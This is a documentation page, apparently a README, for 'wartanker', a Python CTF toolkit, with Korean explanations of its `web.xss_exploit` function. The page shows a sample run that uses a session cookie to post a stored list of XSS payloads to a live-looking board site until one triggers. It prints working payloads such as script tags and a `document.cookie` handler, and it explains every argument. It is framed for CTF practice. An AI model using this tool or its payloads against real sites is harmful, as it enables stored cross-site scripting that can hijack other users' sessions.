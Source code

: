 Exploit of ROOTCTF 2017 prob `Calculate`


## `wartanker.web`
```python
>>> from wartanker import web
[*] Wartanker, the Python3 toolkit for solving CTF problems
```
### `wartanker.web.xss_exploit`
```python
>>> web.xss_exploit('post', 'https://www.uhmtoto.xyz/board/write.php', 'content', {}, {'user':'aa', 'PHPSESSID':'**************************'}, 'https://www.uhmtoto.xyz/board/board')
[*] trying 0 of 68
[*] trying 1 of 68
[*] trying 2 of 68
[*] trying 3 of 68
[*] trying 4 of 68
[*] trying 5 of 68
[*] How about trying '<IMG SRC=javascript:alert(&quot;XSS&quot;)>'?
[*] Do you want more? [Y / N] y
[*] trying 6 of 68
[*] trying 7 of 68
[*] How about trying '<IMG """><SCRIPT>alert("XSS")</SCRIPT>">'?
[*] Do you want more? [Y / N] y
[*] trying 8 of 68
[*] How about trying '<a onmouseover=alert(document.cookie)>xxs link</a>'?
[*] Do you want more? [Y / N] n
```
`wartanker.web.xss_exploit`은 미리 저장된 XSS 페이로드 들을 이용해 Stored XSS 공격을 자동으로 수행해줍니다. 함수의 인자값은 `web.xss_exploit(method, URL, name, param, cookie, testURL)`으로, `method`에는 XSS Payload를 포함한 글을 올릴때 사용할 방법을 지정해야합니다. ( `get`이나 `post` ) `URL`에는 게시글을 올려줄 URL을 지정해야합니다. `name`에는 게시글 내용이 담길 변수를 지정해야 합니다. `param`에는 게시글을 올릴 때 게시글 내용을 제외하고 필요한 다른 파라미터들을 딕셔너리 형식으로 지정해야합니다. `cookie`에는 게시글을 올릴 때 필요한 세션값 등 쿠키값을 딕셔너리 형식으로 지정해야합니다. 마지막으로 `testURL`에는 XSS Payload를 포함할 게시글이 올라올 페이지의 URL을 지정해야 합니다.

#### 사용 예
```python
web.xss_exploit('post', 'https://www.uhmtoto.xyz/board/write.php', 'content', {}, {'user':'aa', 'PHPSESSID':'**************************'}, 'https://www.uhmtoto.xyz/board/board')
```
`https://www.uhmtoto.xyz/board`
